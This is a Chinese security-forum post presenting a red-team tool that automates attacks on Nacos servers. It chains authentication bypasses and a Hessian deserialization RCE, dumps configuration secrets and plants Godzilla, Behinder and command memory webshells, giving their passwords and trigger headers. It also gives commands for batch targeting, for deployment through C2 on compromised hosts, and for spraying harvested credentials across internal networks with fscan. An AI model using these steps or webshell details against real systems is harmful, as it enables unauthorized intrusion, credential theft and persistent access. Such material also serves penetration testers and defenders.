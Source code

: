 

# Nacos红队快速利用工具 - 先知社区

Nacos红队快速利用工具

- - -

# HKEcho Nacos快速利用工具 v0.1

**原创投稿作者：HKEcho@深蓝实验室天玄攻防战队**

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```plain
~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho\_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。

## 原理

本工具支持检测以下漏洞：

```plain
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```plain
pip install -r requirements.txt
```

## 食用

```plain
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```plain
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

[![](assets/1702521043-c95b755b87ca6e63aa96e7578e178f75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164155-7a254a50-94dc-1.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```plain
python HKEcho_Nacos.py -f target.txt
```

[![](assets/1702521043-19afda1a11c6338ad298249068e53408.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164217-86e85886-94dc-1.png)

**3、特殊场景下使用**

注意：HKEcho\_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho\_Nacos.exe到C2上使用，注意，单纯上传HKEcho\_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos\_Jraft\_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

[![](assets/1702521043-71a2099c2330b0778b8e3d83a70f5ec5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164232-902cc9d6-94dc-1.png)

[![](assets/1702521043-929e88ae1c0ffd91edea61e061bb8835.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164250-9ace67a0-94dc-1.png)

或者如下图直接将HKEcho\_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho\_Nacos.exe会自动调用nacosleak.exe

[![](assets/1702521043-bc03743c8bed7e259f95489c4246282c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164303-a29ddc72-94dc-1.png)

同理，若想检测检测Nacos\_Jraft\_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

[![](assets/1702521043-e01f766633ecb8b124bb15d31f836ec8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164319-ac4993ec-94dc-1.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip\_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

[![](assets/1702521043-c4d51519b05b3cdb47e238d2487f244f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164337-b6989cb2-94dc-1.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```plain
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

这个漏洞在项目中其实遇到的不是很多。

一、冰蝎内存马：

```plain
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```plain
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：

```plain
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

[![](assets/1702521043-c1b389c1b9acae8fbb84ac345467e02a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164359-c3c9fc78-94dc-1.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

[![](assets/1702521043-05613e12b8bf6b10e7536eea1a500b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164425-d32a9ab0-94dc-1.png)

**Adduser**

[![](assets/1702521043-69c38a02b156d75f41ea5e1b42daebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164446-dfe7c7fa-94dc-1.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```plain
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本  
[https://github.com/alibaba/nacos/releases](https://github.com/alibaba/nacos/releases)

[![](assets/1702521043-b114f1dfba130597a51ebc05192e6389.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164511-eea9f470-94dc-1.png)

[![](assets/1702521043-45dcb4bda52dc2c2c53428ed1b3db242.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164529-f9a95906-94dc-1.png)

## 参考链接

致谢：  
[https://github.com/Pizz33/nacos\_vul](https://github.com/Pizz33/nacos_vul)  
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
[https://github.com/pap1rman/postnacos](https://github.com/pap1rman/postnacos)

## 项目地址

[https://github.com/HKEcho5213/HKEcho\_Nacos.git](https://github.com/HKEcho5213/HKEcho_Nacos.git)
